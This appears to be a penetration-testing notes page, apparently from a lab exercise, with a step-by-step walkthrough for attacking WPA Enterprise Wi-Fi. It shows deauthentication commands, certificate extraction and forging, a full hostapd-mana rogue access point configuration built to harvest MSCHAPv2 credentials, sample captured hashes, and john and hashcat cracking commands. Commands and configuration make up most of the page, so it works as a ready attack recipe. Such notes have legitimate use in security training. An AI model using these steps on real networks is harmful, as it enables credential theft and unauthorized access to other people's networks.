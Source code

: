 ### Capturing Handshakes
---
> [!note]
> These steps are only used to forge a certificate to trick the client. If the client does not check the certificate, we can simply just create a rogue AP with the same SSID to lure clients into connecting.

##### Capture a handshake (and the certificate):
###### Airodump-ng:
Use airodump-ng to capture a handshake of the target AP
```sh
sudo airodump-ng wlan0mon -c <channel> --bssid <bssid> -w <output name>
```

###### De-authentication Attack:
De-auth the client
```sh
sudo aireplay-ng -0 1 -a <AP bssid> -c <client bssid> wlan0mon
```

###### Packet Inspection:
Upon capturing the handshake, open it with Wireshark, and use this filter:
```
tls.handshake.certificate
```

Then go to `Packet Details`, open `Extensible Authentication Protocol` > `Transport Layer Security`. Then open `TLSv1 Record Layer: Handshake Protocol: Certificate`.  Then expand `Handshake Protocol: Certificate item`, then `Certificates`.
![[Pasted image 20240708164305.png]]

Right click on each certificate, select `Export Packet Bytes` and save them with a `.der` extension.

Display information of the certs:
```
openssl x509 -inform der -in [CERTIFICATE_FILENAME] -tex
```

Convert the certs to `.pem` format if needed:
```
openssl x509 -inform der -in [CERTIFICATE_FILENAME] -outform pem -out [OUTPUT_PEM].crt
```


### Forging Certificates
---
##### FreeRADIUS:
###### Modify the config files:
```sh
sudo mousepad /etc/freeradius/3.0/certs/ca.cnf
```
- Change the `[certificate_authority]` to match those of the captured certificates.

```sh
sudo mousepad /etc/freeradius/3.0/certs/server.cnf
```
- Change the `[server]` to match those of the captured certificates.

###### Building the certificates:
```sh
cd /etc/freeradius/3.0/certs/
```

Regenerate `dh`:
```sh
sudo rm dh && make
```
- `make` will not overwrite existing certs. We have to run `make destroycerts` to clean up.
- Ignore the errors.

### Rogue Access Point
---
##### Hostapd-mana:
###### Create/Edit the config file:
```
sudo mousepad /etc/hostapd-mana/mana.conf
```
- Edit to the correct SSID, Certificate paths, and EAP file.

###### Example config file:
```
# SSID of the AP
ssid=Playtronics

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```



###### Create a EAP user file:
```sh
sudo mousepad /etc/hostapd-mana/mana.eap_user
```

The file should contain the following:
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```

###### Run hostapd-mana:
```sh
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```
- To run `hostapd-mana`, we have to disable monitor mode, or use another wireless card.

###### Example output for successful capture:
```
wlan0: STA 00:2b:bb:b0:42:9e IEEE 802.11: authenticated
wlan0: STA 00:2b:bb:b0:42:9e IEEE 802.11: associated (aid 1)
wlan0: CTRL-EVENT-EAP-STARTED 00:2b:bb:b0:42:9e
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
MANA EAP Identity Phase 0: cosmo
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25
MANA EAP Identity Phase 1: cosmo
MANA EAP EAP-MSCHAPV2 ASLEAP user=cosmo | asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4
MANA EAP EAP-MSCHAPV2 JTR | cosmo:$NETNTLM$ceb69885c656590c$7279f65aa49870f45822c89dcbdd73c1b89d377844caead4:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | cosmo::::7279f65aa49870f45822c89dcbdd73c1b89d377844caead4:ceb69885c656590c
```


### Cracking WPA Enterprise Keys
---
##### Cracking the captured credentials:
From the above output, we can see that different hashes are provided for different methods:
```
...
MANA EAP EAP-MSCHAPV2 ASLEAP user=cosmo | asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4
MANA EAP EAP-MSCHAPV2 JTR | cosmo:$NETNTLM$ceb69885c656590c$7279f65aa49870f45822c89dcbdd73c1b89d377844caead4:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | cosmo::::7279f65aa49870f45822c89dcbdd73c1b89d377844caead4:ceb69885c656590c
```
- Just copy and paste the commands from the output.
- Asleap is currently not working in kali.

###### Example JTR command:
```sh
john --format=netntlm hash.txt
```

###### Example hashcat command:
```sh
hashcat -m 5500 hash.txt /usr/share/wordlists/rockyou.txt
```

